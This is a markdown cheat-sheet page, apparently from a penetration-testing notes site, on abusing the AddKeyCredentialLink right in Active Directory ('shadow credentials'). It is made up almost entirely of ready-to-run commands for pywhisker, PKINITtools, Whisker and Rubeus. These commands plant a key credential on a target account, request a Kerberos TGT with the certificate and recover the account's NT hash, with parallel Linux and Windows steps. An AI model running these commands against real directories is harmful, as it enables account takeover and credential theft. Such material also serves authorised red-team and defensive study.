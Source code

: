 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["Shadow Credentials", "Pass-The-Cert", "AddkeyCredentialLink", "Active Directory", "Windows", "Whisker", "Pywhisker"]
---
```


### Privesc #1: Shadow credentials

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-check \[optional\]

```console
python3 pywhisker.py --action list -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC> -t '<TARGET_USER>' --use-ldaps
```

#### 1. Add shadow credentials

```console
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC> -t '<TARGET_USER>' --use-ldaps
```

<br>

```console
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

#### 2. Request TGT using the PFX

```console
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass '<GENERATED_PASSWORD>' '<DOMAIN>/<TARGET_USER>' <TARGET_USER>.ccache -dc-ip <DC>
```

#### 3. Get NT hash

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
python3 getnthash.py '<DOMAIN>/<TARGET_USER>' -key <AS_REP_ENC_KEY>
```

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 0. Pre-check \[optional\]

```console
.\whisker.exe list /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC>
```

#### 1. Add shadow credentials

```console
.\whisker.exe add /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC> /password:'<PFX_PASSWORD>'
```

#### 2. Request TGT using PFX file and get NTLM hash

```console
.\rubeus.exe asktgt /user:'<TARGET_USER>' /certificate:<BASE64_PFX> /password:'<PFX_PASSWORD>' /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>

{{< /tabcontent >}}
